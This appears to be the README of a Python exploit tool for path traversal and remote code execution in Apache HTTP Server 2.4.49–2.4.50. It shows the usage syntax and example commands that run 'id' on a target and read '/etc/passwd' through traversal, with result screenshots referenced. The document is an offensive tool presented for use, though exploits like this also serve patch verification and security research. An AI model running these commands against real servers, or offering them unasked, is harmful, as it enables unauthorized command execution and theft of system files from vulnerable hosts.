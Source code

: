 # Apache HTTP-Server 2.4.49-2.4.50 Path Traversal & Remote Code 
## Usage: 
```
python3 exploit.py <rhost> <rport> <option> <cmd/file-absolute-path>
```
## Example:
### Remote Code Execution
```
python3 exploit.py 127.0.0.1 8080 rce 'id'
```
![rce](img/rce.png)

### Path Traversal
```
python3 exploit.py 127.0.0.1 8080 file '/etc/passwd'
```
![path_traversal](img/path-trav.png)